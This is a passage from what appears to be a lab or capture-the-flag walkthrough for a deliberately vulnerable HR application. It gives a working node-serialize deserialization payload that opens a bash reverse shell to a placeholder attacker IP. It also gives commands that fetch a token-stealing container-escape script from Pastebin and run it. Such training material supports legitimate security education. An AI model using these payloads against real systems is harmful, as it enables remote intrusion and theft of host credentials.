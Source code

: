 While that's running, grab the NAT address of the machine - you'll need it for the next phase of the challenge.

Navigate to System Tools and then Bulk Employee Upload

<img width="1965" height="1009" alt="image" src="https://github.com/user-attachments/assets/f4747571-23d6-46ea-8c4f-9c5840d09a2d" />


Access the `examples/rce_exploit.json` file, update the `ATTACKER_IP` field with your listener’s IP address and the `REMOTE_PORT` field with the port you’ve configured, then insert the modified JSON into the Bulk Employee Upload function. After applying these changes, trigger the exploit payload to ensure the traffic is directed to your listener.

```JSON
{
  "name": "Stealthy User",
  "position": "Finance",
  "department": "HQ",
  "email": "whoami2@HRgoat.com",
  "phone": "555-000-0000",
  "location": "Remote",
  "hire_date": "2023-01-01",
  "status": "active",
  "manager": "None",
  "salary": 0,
  "bio": "This is a non-blocking test.",
  "metadata": "{\"rce\":\"_$$ND_FUNC$$_function(){const { spawn } = require('child_process'); const shell = spawn('/bin/bash', ['-c', '/bin/bash -i > /dev/tcp/ATTACKER_IP/REMOTE_PORT 0<&1 2>&1'], { detached: true, stdio: 'ignore' }); shell.unref(); return 'shell spawned and detached';}()\"}"
}
```

---

## 🚀 Step 3: Inside the Container!

We’ve successfully landed in the container. 
<img width="858" height="244" alt="image" src="https://github.com/user-attachments/assets/eba78865-cc42-4d41-9f5e-9e7a50111bce" />



---

## 🛠️ Step 4: Breaking Out of the Container

Your next step is to pull and execute a script crafted to capture the host token while slipping past the container boundary. Navigate to the examples directory and locate export_token.sh. 
Once found, upload it to Pastebin or a similar service so you can easily fetch it back onto the target machine for execution.

```bash
cd /tmp

wget -O get_token.sh https://pastebin.com/raw/[your uploaded URL]   // for example - wget -O get_token.sh https://pastebin.com/raw/r3P5TVit
sed -i 's/\r$//' get_token.sh
chmod +x get_token.sh
./get_token.sh
```
<img width="1060" height="1126" alt="image" src="https://github.com/user-attachments/assets/c4a8688e-968d-4680-b5fe-fb800063d9df" />
